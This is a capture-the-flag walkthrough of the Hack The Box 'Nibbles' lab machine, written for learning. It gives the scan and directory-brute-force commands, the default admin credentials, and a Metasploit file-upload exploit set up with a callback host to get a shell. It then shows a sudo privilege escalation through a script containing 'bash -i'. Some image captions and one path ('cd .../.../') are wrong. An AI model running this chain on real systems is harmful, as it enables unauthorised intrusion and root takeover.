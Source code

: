 ```yaml
---
title: 'HachTheBox - Nibbles'
date: '2021-10-12 12:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/nibbles/nibbles.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```


First we run an nmap scan - ```nmap -T4 -p- -A 10.10.10.75```. ```-T4``` specifies the speed at which we run the scan, the ```-p-``` option scans all 65535 ports, and the ```-A``` enables OS detection, version detection, script scanning, and traceroute.

We see two ports open, ```22```(ssh) and port ```80```(http). We also get some information disclosure - ```Apache httpd 2.4.18```.

![nmap-scan-results](/assets/img/nibbles/nibbles-nmap-1.png)

We navigate to "http://10.10.10.75/" in  a browser. We see a web page with "Hello world!". We take a look at the page source and see a comment pointing to a directory ```<!-- /nibbleblog/ directory. Nothing interesting here! -->```

![msfconsole-smb_version-module](/assets/img/nibbles/page-source-2.png)

We navigate to "http://10.10.10.75/nibbleblog/" in the url and see a nibbleblog website.

![smb_version-options](/assets/img/nibbles/nibbles-blog-3.png)

We are going to see if we can find an exploit for nibbles with Searchsploit. We run ```searchsploit nibble``` in a terminal which returns two results. The remote code execution exploit looks promising.
```Arbitrary File Upload (Metasploit)  | php/remote/38489.rb```

![smb_version](/assets/img/nibbles/searchsploit-4.png)

We fire up Metasploit and search for the exploit we saw with Searchsploit. There's only one result and this is the one we want to run - ```use exploit/multi/http/nibbleblog_file_upload```

![rapid7- options](/assets/img/nibbles/use-ex-5.png)

We run info and get a description of the exploit -

Description:
  Nibbleblog contains a flaw that allows an authenticated remote 
  attacker to execute arbitrary PHP code. This module was tested on 
  version 4.0.3.

![rapid7- options](/assets/img/nibbles/description-6.png)


 This means that for the exploit to work you need to be an authenticated user. So we need to locate the admin login panel and gain access. Let's run a directory buster with ```gobuster - dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php``` to locate the admin login page.

 ![use-exploit](/assets/img/nibbles/gobuster-7.png)

 From gobuster we see a directory called ```/admin.php```. That's the login page we want to navigate to - "http://10.10.10.75/nibbleblog/admin.php". Login with these credentials - admin: nibbles

 ![use-exploit](/assets/img/nibbles/nibble-admin-8.png)

 From inside the admin panel,  we select "Settings". Scrolling down to the bottom of the page we see a nibbles version - Nibbleblog 4.0.3 "Coffee". This is a find, this means the exploit we found is suitable for this version of nibble.

![use-exploit](/assets/img/nibbles/nibble-version-9.png)

Back in ```msfconsole``` we set the options of the exploit we chose. ```set password nibbles``` , ```set username admin``` , ```set RHOSTS 10.10.10.75``` , ```set TARGETURI /nibbleblog``` , be sure to ```set LHOST 10.10.16.5```, and
```run``` the exploit.

![use-exploit](/assets/img/nibbles/set-options-10.png)

We've got ourselves a shell, however we ```getuid``` and see we're a low level user. We're going to need to perform some privilege escalation. But whilst we're here we ```cd /home/nibbler``` and ```cat user.txt``` to get our user flag.

![use-exploit](/assets/img/nibbles/getuid-11.png)

![use-exploit](/assets/img/nibbles/user-txt-11.png)

From here we switch to a ```shell``` session. And type ```sudo -l```. The output shows us how we can run commands as ```su```. We ```cd /home/nibbler``` then ```mkdir personal``` then ```cd personal``` then ```mkdir stuff``` and ```cd stuff```.
Now we ```echo "bash -i" > monitor.sh```.

![use-exploit](/assets/img/nibbles/mkdir-12.png)

To run the bash file we need to change it's permissions with ```chmod +x monitor.sh```. Then we run ```sudo ./monitor.sh```.
And like that, we have root! The machine has been owned.

![use-exploit](/assets/img/nibbles/chmod-root-13.png)

To fully own the system ```cd .../.../.../.../root``` and ```cat root.txt``` to find the flag and fully own it!

![use-exploit](/assets/img/nibbles/root-flag-14.png)









